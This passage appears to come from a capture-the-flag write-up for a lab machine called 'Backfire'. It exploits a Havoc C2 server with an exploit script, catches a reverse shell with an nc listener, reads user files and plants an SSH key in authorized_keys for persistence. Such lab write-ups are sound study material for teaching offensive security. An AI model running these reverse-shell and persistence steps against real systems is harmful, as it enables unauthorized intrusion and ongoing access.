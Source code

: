 Essentially, you run:
- A http server to serve you payload to the victim: `python -m http.server 80`
- A `nc` listener waiting for the reverse shell calling back: `nc -lnvp 9001`

Then to execute the exploit, you need the port and the internal ip address, which we got from the leaked files earlier.

So running:
```bash
└─$ python exploit.py -t https://10.129.254.154 -i 127.0.0.1 -p 40056 
[+] Registering agent...
[+] Opening socket...
[+] Writing socket...
```

Gets us a shell as `ilya`.

```bash
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.167] from (UNKNOWN) [10.129.254.154] 42792
bash: cannot set terminal process group (35544): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$ cd /home
ilya@backfire:/home$ ls
ls
ilya
sergej
ilya@backfire:/home$ cd ilya
cd ilya
ilya@backfire:~$ ls
ls
files
hardhat.txt
Havoc
user.txt
ilya@backfire:~$ cat u*
cat u*
b..............................5
```

However this shell is quite short lived, so I went and got a `ssh` connection:

```bash
ilya@backfire:~/Havoc/payloads/Demon$ cd 
ilya@backfire:~$ cd .ssh
ilya@backfire:~/.ssh$ echo "ssh-ed25519 AAAAC......xk some_user@mymail.com" >> authorized_keys
```

## Exploiting HardHatC2

Looking at the files in ilyas home, we find that `sergej` probably is using [HardHatC2](https://github.com/DragoQCC/CrucibleC2) 

```
ilya@backfire:~$ cat hardhat.txt 
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```
